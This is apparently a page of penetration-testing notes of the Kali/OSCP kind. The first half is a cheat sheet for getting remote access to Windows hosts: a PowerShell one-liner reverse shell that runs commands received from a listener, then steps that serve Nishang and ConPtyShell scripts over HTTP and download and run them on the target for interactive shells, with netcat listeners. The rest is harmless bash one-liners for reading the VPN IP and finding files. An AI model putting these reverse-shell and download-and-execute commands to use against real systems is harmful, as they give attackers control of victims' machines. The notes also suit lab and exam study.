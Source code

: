 ```bash
$sm=(New-Object Net.Sockets.TCPClient('192.168.254.1',55555)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```
**Upgrade to Interactive Powershell with Nishang Invoke-PowerShellTcp.ps1**
In Kali
Host Invoke-PowerShellTcp.ps1 on port 80 in one terminal.
```bash
python3 -m http.server 80
```
In a second terminal, start a reverse shell listener:
```bash
rlwrap nc -lvnp 4444
```
In the Windows non-interactive shell:
```bash
powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.119.175/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.119.175 -Port 4444
```
**Alternatively**
In Kali:
```bash
sh
stty raw -echo; (stty size; cat) | rlwrap nc -lvnp 4444
```
In Windows:
```bash
powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.119.175/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell 192.168.119.175 4444
```
*Won't work if CreatePseudoConsole function doesn't exist!*

## Everyday Bash One-Liners
A collection of bash one-liners that have proven invaluable in various situations.
### Quickly display the Kali VPN IP Address
greping the tun0 address:
```bash
ip -f inet a | grep tun0 | awk '/inet / {print $2}' | cut -f 1 -d '/'
```
Alternatively, Save the following into ~/.zshrc
```bash
export MYIP=$(ip -f inet a | grep tun0 | awk '/inet / {print $2}' | cut -f 1 -d '/')
```
Then run:
```bash
echo $MYIP
```
Alternatively, create scripts containing the above oneliner and save in PATH as `tun0`
### Finding files
Search through all files in PATH (useful to check if a tool is installed):
```bash
which [FILE_NAME]
```
Search through locate database:
```
locate [FILE_NAME]
```
Search through entire filesystem recursively
```bash
find / -name [file_name] -type f 2>/dev/nul
```
_Note: Can use an * to indicate wildcard_
